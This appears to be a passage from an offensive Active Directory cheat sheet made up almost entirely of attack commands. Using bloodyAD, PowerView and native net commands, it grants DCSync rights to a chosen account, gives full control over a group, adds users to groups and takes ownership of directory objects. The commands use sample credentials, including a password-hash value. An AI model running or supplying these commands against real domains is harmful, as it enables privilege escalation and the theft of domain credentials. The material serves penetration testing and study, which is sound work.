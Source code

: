 * Windows/Linux:

  ```ps1
  # Give DCSync right to the principal identity
  bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B add dcsync user2
  
  # Remove right after DCSync
  bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B remove dcsync user2
  ```

* Windows only:

  ```ps1
  # Give DCSync right to the principal identity
  Import-Module .\PowerView.ps1
  $SecPassword = ConvertTo-SecureString 'user1pwd' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN.LOCAL\user1', $SecPassword)
  Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'DC=domain,DC=local' -Rights DCSync -PrincipalIdentity user2 -Verbose -Domain domain.local 
  ```
  
### WriteDACL on Group

* Windows/Linux:

  ```ps1
  bloodyAD --host my.dc.corp -d corp -u devil_user1 -p 'P@ssword123' add genericAll 'cn=INTERESTING_GROUP,dc=corp' devil_user1
  
  # Remove right
  bloodyAD --host my.dc.corp -d corp -u devil_user1 -p 'P@ssword123' remove genericAll 'cn=INTERESTING_GROUP,dc=corp' devil_user1
  ```

* Windows only:

  ```ps1
  # Using native command
  net group "INTERESTING_GROUP" User1 /add /domain
  # Or with external tool
  PowerSploit> Add-DomainObjectAcl -TargetIdentity "INTERESTING_GROUP" -Rights WriteMembers -PrincipalIdentity User1
  ```

## WriteOwner

An attacker can update the owner of the target object. Once the object owner has been changed to a principal the attacker controls, the attacker may manipulate the object any way they wants.

* Windows/Linux:

 ```ps1
 bloodyAD --host my.dc.corp -d corp -u devil_user1 -p 'P@ssword123' set owner target_object devil_user1
 ```
